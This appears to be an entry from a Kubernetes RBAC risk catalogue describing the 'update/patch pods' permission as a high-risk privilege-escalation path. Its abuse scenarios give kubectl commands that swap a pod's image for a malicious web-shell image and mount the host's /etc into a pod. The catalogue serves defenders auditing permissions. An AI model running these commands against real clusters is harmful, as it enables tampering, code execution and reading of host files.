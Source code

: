```yaml
---
id: 1009
title: "Update/Patch pods in a namespace"
description: "Allows modifying existing pods within a specific namespace. This can be used to escalate privileges by changing a pod's configuration to run with higher permissions, execute arbitrary code, or tamper with application behavior within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                                                              |
| ----------------------- | -------------------------------------------------------------------------------------------------- |
| ID                      | 1009                                                                                               |
| Name                    | Update/Patch pods in a namespace                                                                   |
| Risk Category           | Elevation of Privilege                                                                             |
| Risk Level              | {{< risk High >}}                                                                                  |
| Role Type               | Role                                                                                               |
| API Groups              | core                                                                                               |
| Resources               | pods                                                                                               |
| Risky Verb Combinations | [update] · [patch]                                                                                 |
| Tags                    | {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadExecution" >}} |

## Description

Allows modifying existing pods within a specific namespace. This can be used to escalate privileges by changing a pod's configuration to run with higher permissions, execute arbitrary code, or tamper with application behavior within that namespace.

## Abuse Scenarios

1. Patch a running pod in the namespace to change its container image.

```bash
kubectl set image pod/<pod-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image pod/my-web-app web=attacker/web-shell -n dev

```

2. Patch a running pod to add a hostPath volume mount (if not blocked by PSP/PSA).

```bash
kubectl patch pod <pod-name> -n <namespace> --type='json' -p='[{"op": "add", "path": "/spec/volumes/-", "value": {"name": "host-path-vol", "hostPath": {"path": "/etc"}}}, {"op": "add", "path": "/spec/containers/0/volumeMounts/-", "value": {"name": "host-path-vol", "mountPath": "/mnt/host-etc"}}]'
# Example: kubectl patch pod my-app -n default --type='json' -p='[{"op": "add", "path": "/spec/volumes/-", "value": {"name": "host-path-vol", "hostPath": {"path": "/etc"}}}, {"op": "add", "path": "/spec/containers/0/volumeMounts/-", "value": {"name": "host-path-vol", "mountPath": "/mnt/host-etc"}}]'

```
